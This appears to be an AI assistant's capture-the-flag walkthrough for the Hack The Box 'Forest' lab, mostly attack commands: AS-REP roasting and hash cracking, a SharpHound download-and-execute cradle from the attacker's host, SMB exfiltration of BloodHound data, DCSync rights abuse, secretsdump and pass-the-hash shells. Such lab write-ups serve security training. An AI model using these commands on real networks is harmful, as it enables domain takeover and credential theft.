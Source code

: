Here’s your walkthrough-style write-up for **HTB: Forest**, organized by stage and packed with relevant commands and explanations 👇

---

## 🛰️ Recon

### Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.161
```

### Targeted Script Scan
```bash
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -oA scans/nmap-tcpscripts 10.10.10.161
```

### UDP Scan
```bash
nmap -sU -p- --min-rate 10000 -oA scans/nmap-alludp 10.10.10.161
```

---

## 🌲 Domain Discovery

### DNS Enumeration
```bash
dig @10.10.10.161 htb.local
dig @10.10.10.161 forest.htb.local
dig axfr @10.10.10.161 htb.local  # failed zone transfer
```

### Enumerating Users via RPC
```bash
rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4
```

---

## 🧪 AS-REP Roasting

### Prepare User List
```bash
cat > users <<EOF
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
EOF
```

### Identify Vulnerable Users
```bash
for user in $(cat users); do
  GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}
done
```

### Crack the Hash
```bash
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
# Password: s3rvice
```

---

## 💻 Shell as `svc-alfresco`

### WinRM Access
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

### Capture User Flag
```powershell
type C:\Users\svc-alfresco\Desktop\user.txt
```

---

## 🩸 BloodHound + SharpHound

### Load SharpHound
```powershell
iex(New-Object Net.WebClient).DownloadString("http://<your_ip>/SharpHound.ps1")
Invoke-BloodHound -CollectionMethod All -Domain htb.local -LdapUser svc-alfresco -LdapPass s3rvice
```

### Exfil via SMB
```powershell
net use \\<your_ip>\share /u:df df
copy 202XXXXX_BloodHound.zip \\<your_ip>\share\
net use /d \\<your_ip>\share
```

---

## 🧭 Path to Domain Admin

### Add User to Exchange Group
```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco
```

### Assign DCSync Rights
```powershell
$username = "htb\svc-alfresco"
$password = "s3rvice"
$secstr = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secstr

Add-DomainObjectAcl -Credential $cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

---

## 🔓 Dumping Administrator Hash

```bash
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

---

## ⚙️ SYSTEM Shell

### Using Evil-WinRM
```bash
evil-winrm -i 10.10.10.161 -u administrator -H <NTLM hash>
```

### Or with wmiexec
```bash
wmiexec.py -hashes :<NTLM hash> htb.local/administrator@10.10.10.161
```

### Capture Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Beyond Root

- DCSync requires TCP 135, 445, and a high RPC port (like 49667).
- There’s a cleanup scheduled task (`revert.ps1`) that resets `svc-alfresco`’s password and group memberships every 60 seconds.
- You must move quickly between adding to Exchange Windows Permissions and running `Add-DomainObjectAcl`.

---

Let me know if you want this one exported as a markdown file or added to a master write-up! 🛠️🗒️